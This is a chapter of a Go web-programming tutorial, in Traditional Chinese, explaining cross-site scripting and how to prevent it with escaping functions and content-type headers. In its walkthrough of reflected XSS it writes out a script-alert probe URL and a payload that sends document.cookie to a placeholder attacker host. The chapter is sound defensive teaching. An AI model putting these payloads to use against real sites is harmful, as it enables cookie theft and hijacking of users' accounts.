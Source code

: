 # 9.3 避免XSS攻擊
隨著網際網路技術的發展，現在的Web應用都含有大量的動態內容以提高使用者體驗。所謂動態內容，就是應用程式能夠根據使用者環境和使用者請求，輸出相應的內容。動態站點會受到一種名為“跨站指令碼攻擊”（Cross Site Scripting, 安全專家們通常將其縮寫成 XSS）的威脅，而靜態站點則完全不受其影響。

## 什麼是XSS
XSS攻擊：跨站指令碼攻擊(Cross-Site Scripting)，為了不和層疊樣式表(Cascading Style Sheets, CSS)的縮寫混淆，故將跨站指令碼攻擊縮寫為XSS。XSS是一種常見的web安全漏洞，它允許攻擊者將惡意程式碼植入到提供給其它使用者使用的頁面中。不同於大多數攻擊(一般只涉及攻擊者和受害者)，XSS涉及到三方，即攻擊者、客戶端與Web應用。XSS的攻擊目標是為了盜取儲存在客戶端的cookie或者其他網站用於識別客戶端身份的敏感資訊。一旦取得到合法使用者的資訊後，攻擊者甚至可以假冒合法使用者與網站進行互動。

XSS通常可以分為兩大類別：一類別是儲存型XSS，主要出現在讓使用者輸入資料，供其他瀏覽此頁的使用者進行檢視的地方，包括留言、評論、部落格日誌和各類別表單等。應用程式從資料庫中查詢資料，在頁面中顯示出來，攻擊者在相關頁面輸入惡意的指令碼資料後，使用者瀏覽此類別頁面時就可能受到攻擊。這個流程簡單可以描述為:惡意使用者的Html輸入Web程式->進入資料庫->Web程式->使用者瀏覽器。另一類別是反射型XSS，主要做法是將指令碼程式碼加入URL地址的請求引數裡，請求引數進入程式後在頁面直接輸出，使用者點選類似的惡意連結就可能受到攻擊。

XSS目前主要的手段和目的如下：

- 盜用cookie，取得敏感資訊。
- 利用植入Flash，透過crossdomain許可權設定進一步取得更高許可權；或者利用Java等得到類似的操作。
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻擊者）使用者的身份執行一些管理動作，或執行一些如:發微博、加好友、發私信等常規操作，前段時間新浪微博就遭遇過一次XSS。
- 利用可被攻擊的域受到其他域信任的特點，以受信任來源的身份請求一些平時不允許的操作，如進行不當的投票活動。
- 在訪問量極大的一些頁面上的XSS可以攻擊一些小型網站，實現DDoS攻擊的效果

## XSS的原理
Web應用未對使用者提交請求的資料做充分的檢查過濾，允許使用者在提交的資料中摻入HTML程式碼(最主要的是“>”、“<”)，並將未經轉義的惡意程式碼輸出到第三方使用者的瀏覽器解釋執行，是導致XSS漏洞的產生原因。

接下來以反射性XSS舉例說明XSS的過程：現在有一個網站，根據引數輸出使用者的名稱，例如訪問url：`http://127.0.0.1/?name=astaxie`，就會在瀏覽器輸出如下資訊：

	hello astaxie

如果我們傳遞這樣的url：`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`,這時你就會發現瀏覽器跳出一個彈出框，這說明站點已經存在了XSS漏洞。那麼惡意使用者是如何盜取Cookie的呢？與上類似，如下這樣的url：`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`，這樣就可以把當前的cookie傳送到指定的站點：`www.xxx.com`。你也許會說，這樣的URL一看就有問題，怎麼會有人點選？，是的，這類別的URL會讓人懷疑，但如果使用短網址服務將之縮短，你還看得出來麼？攻擊者將縮短過後的url透過某些途徑傳播開來，不明真相的使用者一旦點選了這樣的url，相應cookie資料就會被髮送事先設定好的站點，這樣子就盜得了使用者的cookie資訊，然後就可以利用Websleuth之類別的工具來檢查是否能盜取那個使用者的賬戶。

更加詳細的關於XSS的分析大家可以參考這篇叫做《[新浪微博XSS事件分析](http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)》的文章。

## 如何預防XSS
答案很簡單，堅決不要相信使用者的任何輸入，並過濾掉輸入中的所有特殊字元。這樣就能消滅絕大部分的XSS攻擊。

目前防禦XSS主要有如下幾種方式：

- 過濾特殊字元

	避免XSS的方法之一主要是將使用者所提供的內容進行過濾，Go語言提供了HTML的過濾函式：

	text/template套件下面的HTMLEscapeString、JSEscapeString等函式

- 使用HTTP頭指定型別

```Go

`w.Header().Set("Content-Type","text/javascript")`

這樣就可以讓瀏覽器解析javascript程式碼，而不會是html輸出。

```
## 總結
XSS漏洞是相當有危害的，在開發Web應用的時候，一定要記住過濾資料，特別是在輸出到客戶端之前，這是現在行之有效的防止XSS的手段。

## links
   * [目錄](<preface.md>)
   * 上一節: [確保輸入過濾](<09.2.md>)
   * 下一節: [避免SQL注入](<09.4.md>)

